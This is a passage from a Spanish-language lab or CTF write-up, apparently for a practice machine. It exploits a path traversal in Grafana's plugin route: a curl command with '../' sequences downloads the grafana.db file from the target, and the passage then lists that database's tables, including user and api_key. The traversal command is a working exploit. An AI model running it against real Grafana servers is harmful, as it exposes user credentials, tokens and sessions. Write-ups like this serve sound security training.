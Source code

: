 Una ruta donde se almacenan archivos interesantes, solo nos faltaria un nombre, el cúal encontramos en la sección **Database**:

```ini
...

#################################### Database ####################################
[database]

...

# For "sqlite3" only, path relative to data_path setting
;path = grafana.db

...
```

Lo tenemos, ahora intentamos descargar el archivo `/var/lib/grafana/grafana.db`:

> Usando `curl`

```shell
❯ curl --path-as-is http://10.10.11.183:3000/public/plugins/mysql/../../../../../../../../var/lib/grafana/grafana.db -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  644k  100  644k    0     0   807k      0 --:--:-- --:--:-- --:--:--  807k

❯ file grafana.db
grafana.db: SQLite 3.x database, last written using SQLite version 3035004, file counter 558, database pages 161, cookie 0x119, schema 4, UTF-8, version-valid-for 558
```
{: .nolineno}

Ahora usamos el comando `sqlite3` para enumerar la base de datos `grafana.db`:

> List tables

```console
❯ sqlite3 grafana.db
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token
```
